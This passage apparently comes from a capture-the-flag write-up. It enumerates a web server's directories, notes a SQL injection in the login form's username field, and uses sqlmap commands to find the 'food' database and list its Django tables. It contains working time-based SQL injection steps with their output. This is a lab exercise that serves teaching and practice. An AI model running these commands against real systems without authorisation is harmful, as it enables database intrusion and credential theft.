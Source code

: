 ```bash
/about                (Status: 200) [Size: 10720]
/blog                 (Status: 200) [Size: 11402]
/login                (Status: 200) [Size: 13151]
/debug                (Status: 403) [Size: 122]
/recipe               (Status: 200) [Size: 13914]
Progress: 10890 / 87665 (12.42%)^C
[!] Keyboard interrupt detected, terminating.
```
{: .nolineno }

## Foothold

ZAP shows that the `username` field on the login form is vulnerable to sqli. 

![Screenshot 2023-08-12 at 12.05.40 PM.png](/assets/crylo/Screenshot_2023-08-12_at_12.05.40_PM.png)

### Exploit sqli

Save a request to the login page from Zap to `req.raw` to use in sqlmap. Be sure to open the file and clean the parameters of any of the test palyloads that ZAP was sending before starting sqlmap.

This is a blind, time-based attack so it will run very slowly. We’ll start by extracting the name of the current database, to limit our scope. In this first run, sqlmap will also learn how to exploit the database and save that technique for subsequent runs.

`sqlmap -r req.raw -p "username" --random-agent --current-db`

With this we learn the db is named `food`

Next we’ll get a list of tables so that we can dump just the one(s) we’re interested in.

`sqlmap -r req.raw -p "username" --random-agent -D food --tables`

```bash
[15:41:11] [INFO] fetching tables for database: 'food'
[15:41:11] [INFO] fetching number of tables for database 'food'
[15:41:11] [INFO] retrieved: 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
1
[15:41:32] [INFO] adjusting time delay to 2 seconds due to good response times
3
[15:41:35] [INFO] retrieved: accounts_pin
[15:43:24] [INFO] retrieved: accounts_pintoken
[15:44:37] [INFO] retrieved: accounts_upload
[15:45:53] [INFO] retrieved: auth_group
[15:47:26] [INFO] retrieved: auth_group_permissions
[15:49:36] [INFO] retrieved: auth_permission
[15:51:13] [INFO] retrieved: auth_user
[15:51:57] [INFO] retrieved: auth_user_groups
[15:53:30] [INFO] retrieved: auth_user_user_permissions
[15:56:12] [INFO] retrieved: django_admin_log
[15:58:39] [INFO] retrieved: django_content_type
[16:00:53] [INFO] retrieved: django_migrations                                                                                                                                                                    
```